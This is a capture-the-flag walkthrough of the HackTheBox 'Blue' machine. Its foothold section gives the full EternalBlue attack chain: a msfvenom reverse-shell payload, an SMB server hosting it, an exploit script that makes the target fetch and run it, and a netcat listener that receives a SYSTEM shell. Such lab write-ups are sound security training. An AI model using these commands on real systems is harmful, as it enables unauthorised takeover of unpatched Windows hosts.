

# HackTheBox Blue

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)



## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.40 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 135,139,445,49152,49153,49154,49155,49156,49157

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.40 -p135,139,445,49152,49153,49154,49155,49156,49157
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 11:11 +07
Nmap scan report for 10.10.10.40
Host is up (0.27s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -5m56s, deviation: 34m36s, median: 14m02s
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-04-05T05:26:21+01:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-04-05T04:26:20
|_  start_date: 2021-04-05T04:23:24

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.31 seconds
```

### Server Message Block

```
┌──(Hades㉿10.10.14.5)-[2.7:14.3]~/scripting
└─$ sudo nmap --script smb-vul* 10.10.10.40 -p 139,445
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-05 11:15 +07
Nmap scan report for 10.10.10.40
Host is up (0.28s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 16.97 seconds
```

Enum using `smbmap` without add user guest, I have nothing.

```
┌──(Hades㉿10.10.14.5)-[1.9:14.7]~/walkthrough/hackthebox/blue
└─$ smbmap -H 10.10.10.40
[+] IP: 10.10.10.40:445 Name: 10.10.10.40
```

Adding user guest to tools, it's work now.

```
┌──(Hades㉿10.10.14.5)-[1.9:14.7]~/walkthrough/hackthebox/blue
└─$ smbmap -H 10.10.10.40 -u guest
[+] IP: 10.10.10.40:445 Name: 10.10.10.40
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        Share                                                   READ ONLY
        Users                                                   READ ONLY
```

## Foothold

### EternalBlue

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/blue)

I drop an exploit `cmd.py` at [Legacy box](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/legacy). Copy and run it for Blue.

Create shell.exe file to open reverse shell.

```
┌──(Hades㉿10.10.14.5)-[1.9:14.9]~
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=443 EXITFUNC=thread -f exe > shell.exe
```

Open smb server in kali at folder contain file `shell.exe`.

```
┌──(Hades㉿10.10.14.5)-[2.6:14.3]~
└─$ sudo smbserver.py public /home/kali/walkthrough/hackthebox/blue > /dev/null
```

Execute payload after modify the `USERNAME = 'guest'`. 

```
┌──(Hades㉿10.10.14.5)-[1.9:14.9]~/walkthrough/hackthebox/blue
└─$ sudo python cmd.py 10.10.10.40 '\\10.10.14.5\public\shell.exe' > /dev/null
```

Reverse shell at listener.

```
┌──(Hades㉿10.10.14.5)-[2.6:14.4]~
└─$ sudo nc -nvlp 443
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.40] 49159
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.
C:\Windows\system32>whoami
whoami
nt authority\system
```